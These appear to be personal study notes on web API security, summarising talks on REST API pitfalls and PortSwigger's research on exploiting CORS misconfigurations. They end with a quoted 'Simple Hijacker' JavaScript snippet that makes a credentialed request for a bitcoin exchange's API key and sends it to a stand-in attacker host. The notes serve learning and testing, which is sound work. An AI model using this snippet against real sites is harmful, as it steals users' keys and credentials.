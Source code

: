 ### [Common REST API security pitfalls by Philippe De Ryck](https://www.youtube.com/watch?v=Meh4EUmLCfM)

 - Allowing API's over HTTP
 - JWT Tokes
	 - Signing can be done in two ways : Shared Secret, Public/private key pair. 
		 - Sign with private key, verify the signature with public key
	 - Defending against CSRF in API's
		 - Transparent cookies.
			 - Server sends two cookies instead of one, one CSRF token in cookie , then cookie value is copied to header, as header can not be set by any other domain then the origin, server will reject the request.

### [Exploiting CORS Misconfigurations for Bitcoins and Bounties](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)
 
 - [Video](https://www.youtube.com/watch?v=wgkj4ZgxI4c&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=31)
	 - CORS doesn't supports
		 - *.domain.com but `*`
		 - Multiple domain in Access-control-allow-origin header.
		 - `*` can not be used for the resource that requires credentials. browsers don't send it anyway.
			 - This can be achived by dynamic generation in response.
				 - So whenever server get the request from the client browser.
				 - It sends the ACAO header with the calling origin.
		 - Testing
			 - Change the origin header to differnt domain then host and check for response ACAO header value, if it is same as domain then it looks good otherwise it's a vulnerablity also look for ACAC header as it sends cookies with the requests if header is set.
			 - Sometimes `example.com.evil.net` also works
				 - may be becasue of *example*
		 - What is null origin
			 - ACAO: `null`
			 - Files on your local file system uses null origin.
			 - iframe which are sandbox also keep origin to null origin.
			 - null is more dangerous.
		 	 - Any Website can allow null origin if used in iframe sandbox.
			
					<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/							html,<script>*cors stuff here*</script>’></iframe>


		 - Check if origin allows - http://
	 - Exploitation without ACAC
		 - Tunneling like IntelliJ local server access to send private ssh keys.
		 - Basic Auth is also allowed to send with ACAC

Simple Hijacker

		var req = new XMLHttpRequest(); 
		req.onload = reqListener; 
		req.open('get','https://btc-exchange/api/requestApiKey',true); 
		req.withCredentials = true;
		req.send();

		function reqListener() {
		    location='//atttacker.net/log?key='+this.responseText; 
		};
